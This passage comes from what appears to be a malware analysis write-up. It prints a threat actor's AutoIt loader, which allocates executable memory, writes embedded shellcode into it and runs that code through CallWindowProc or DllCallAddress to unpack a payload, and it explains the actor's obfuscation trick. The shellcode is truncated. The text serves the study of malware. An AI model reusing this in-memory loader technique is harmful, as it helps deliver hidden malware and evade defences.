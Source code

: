 <h4>The two next functions are for initiate the process and the structure which content the payload. In function of the OS arch, this push the following header of structure of the process to initiate.</h4>

```autoit
Func Init_Struct($arg1, $arg2)
	If @AutoItX64 Then
		Local $OP_DLL_Struct = "0x89C055 [...] EC54963F241"
		$OP_DLL_Struct &= "83C201EBC448 [...] 5EC3"
	Else
		Local $OP_DLL_Struct = "0x89C05531C057565383E [...] 583C4085B5E5F5DC2100089"
		$OP_DLL_Struct &= "DB5557565383EC088B54 [...] 21000"
	EndIf
		Local $Ref_Struct_1 = (StringInStr($OP_DLL_Struct, "89C0") - 3) / 2
		Local $Ref_Struct_2 = (StringInStr($OP_DLL_Struct, "89DB") - 3) / 2
		$OP_DLL_Struct = Binary($OP_DLL_Struct)
		$struct1 = DllStructCreate("byte[" & BinaryLen($OP_DLL_Struct) & "]", DllCall("kernel32.dll", "ptr", "VirtualAlloc", "ptr", 0, "ulong_ptr", BinaryLen($OP_DLL_Struct), "dword", 0x00001000, "dword", 0x00000040)[0])
		DllStructSetData($struct1, 1, $OP_DLL_Struct)
		Local $lim = BinaryLen($arg2)
		Local $Bytes_Struct = DllStructCreate("byte[" & $lim & "]")
		DllStructSetData($Bytes_Struct, 1, $arg2)
		Local $ctvBJcdIjHzL = DllStructCreate("byte[272]")
		@AutoItX64 ? DllCallAddress("none", DllStructGetPtr($struct1) + $Ref_Struct_1, "ptr", DllStructGetPtr($ctvBJcdIjHzL), "ptr", DllStructGetPtr($Bytes_Struct), "uint", $lim, "int", 0) : DllCall("user32.dll", "uint", "CallWindowProc", "ptr", DllStructGetPtr($struct1) + $Ref_Struct_1, "ptr", DllStructGetPtr($ctvBJcdIjHzL), "ptr", DllStructGetPtr($Bytes_Struct), "uint", $lim,"int", 0)
		Local $lim2 = BinaryLen($arg1)
		Local $Bytes_Struct2 = DllStructCreate("byte[" & $lim2 & "]")
		DllStructSetData($Bytes_Struct2, 1, $arg1)
		@AutoItX64 ? DllCallAddress("int", DllStructGetPtr($struct1) + $Ref_Struct_2,"ptr", DllStructGetPtr($ctvBJcdIjHzL), "ptr", DllStructGetPtr($Bytes_Struct2), "uint", $lim2, "int", 0) : DllCall("user32.dll", "uint", "CallWindowProc", "ptr", DllStructGetPtr($struct1) + $Ref_Struct_2, "ptr", DllStructGetPtr($ctvBJcdIjHzL), "ptr", DllStructGetPtr($Bytes_Struct2), "uint", $lim2, "int", 0)	
		Return Init_process($Bytes_Struct2, 1)
EndFunc

Func Init_process($Ref_Struct, $Ref_Element, $control = 0 )
	If NOT $control = 0 Then
	return DllStructGetData($Ref_Struct, $Ref_Element, $control)
	else
	return DllStructGetData($Ref_Struct, $Ref_Element)
	EndIF
EndFunc
```

<h4>The last function called is for the allocation of the payload in memory in creating the structure need for run it. The Actor use StringTrimLeft(Binary(Chr(Random(65, 90, 1))),2) as obfuscation for the end of the payload, this chooses a random letter between A to Z but rest the same due to this convert to binary format (01000001 - 01011010) and kept only the first two numbers at left that return each time "01". This can be replacing by this value ("01") for getting all the shellcode that need to run.</h4>
